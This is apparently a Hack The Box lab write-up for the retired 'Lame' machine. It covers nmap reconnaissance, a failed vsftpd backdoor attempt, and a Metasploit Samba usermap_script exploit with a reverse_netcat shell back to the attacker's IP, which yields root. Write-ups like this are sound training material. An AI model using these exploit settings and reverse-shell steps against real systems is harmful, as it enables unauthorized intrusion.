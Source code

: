 # Lame - Retired Machine
**About Lame**\
Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
## Step 1 - Nmap Scan
Just performed basic nmap scan:\
`nmap -sC -SV <Target-IP>`\
where:\
`-sC` - Scan with default NSE scripts. Considered useful for discovery and safe.\
`-sV` - Attempts to determine the version of the service running on port.

The Output it produced is in the file - [Nmap output file](HTB-Labs-Docs/Lame/Nmap.txt)
## Step 2 - Exploiting the FTP 
In Nmap scan, FTP was open and it was accessible via the `Anonymous` login, but it doesn't work.
After all i looked about the version of ftp which is used, `VsFTPd 2.3.4` and searched for vulnerability.\
Luckly there is a vulnerability in the respected version of the FTP known as **VSFTPD v2.3.4 Backdoor Command Execution** and there is open exploit in [rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).\
So, executed metasploit exploit using the `exploit/unix/ftp/vsftpd_234_backdoor` payload, Unfortunatly it **FAILED**.
## Step 3 - Exploiting the SMB 
In Nmap scan, SMB was open and without wasting time reviewed the version of it `smbd 3.0.20-Debian` and searched for any vulnerability on the particular version of SMB./
Yes, it is there **Samba "username map script" Command Execution**. 
> In old versions of Samba, there is a feature that maps fake usernames to real ones using a script.
But this mapping process is broken, if you give Samba a specially crafted username, it will run system commands instead of just mapping names.

Again in [rapid7](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) found the metasploit exploit. Then, using the `exploit/multi/samba/usermap_script` exploit and with necessary settings;
```
set RHOSTS <Target-IP>
set PAYLOAD payload/cmd/unix/reverse_netcat
set LHOST <tun0-IP>
run
```
Successfully gained the shell. using `whoami` found that im as root.
## Step 4 - Collecting the Flags
As final steps, the shell is dumb and with the command `python -c 'import pty; pty.spawn("/bin/bash")'` the shell is TTY.\
HTB asks for user makis, root flags which can be easily found by searching the directories.\
Finally Pwned the machine.

![Lame Machine Pawned](https://github.com/Nithin-vs/HTB-Labs-Docs/blob/main/Lame/Acheived.png)
